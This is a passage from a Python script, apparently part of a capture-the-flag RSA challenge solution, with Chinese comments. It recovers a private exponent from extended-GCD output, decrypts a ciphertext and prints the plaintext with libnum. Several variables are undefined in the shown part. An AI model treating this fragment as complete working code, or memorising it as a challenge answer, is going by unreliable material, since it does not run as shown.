print("s = %d, t = %d"%(ans[1],ans[2]))
print(ans[2]*e%inv)
s=ans[1]#-n
t=ans[2]+m
print(t*e%inv)


print(pow(mm,t,b))
#t是d
m=pow(mm,t,b)
#m可以通过d求出.
print(hex(m))

from libnum import *   
print(n2s(m))
```